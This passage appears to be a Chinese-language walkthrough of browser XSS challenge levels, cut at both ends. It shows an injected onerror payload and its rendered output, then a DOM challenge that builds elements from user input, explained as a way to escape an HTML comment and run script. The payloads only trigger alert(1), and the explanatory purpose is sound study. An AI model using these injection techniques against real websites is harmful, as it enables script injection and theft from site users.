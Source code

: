 利用注释，把多余的`"`注释掉

例

```javascript
<img onerror=alert(1) src="a.gif">
```

Payload

```
[[a|http://onerror=alert(1)//]]
```

Output

```javascript
<img alt="<a href="http://onerror=alert(1)//" src="a.gif">">http://onerror=alert(1)//]]</a>
```

Test iframe

```
一张裂开的图
```



## DOM

```javascript
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```

`m = s.split(/#/);`根据`#`对s进行切割

`document['create'+m[0]]`调用`document.create()`函数

例

如果输入`Comment#AiDAi`

先被分割为Comment和AiDai

然后调用`document.createComment()`

生成`<!--AiDAi-->`

这是html中的注释

闭合注释，在中间插入js标签执行alert(1)

Payload
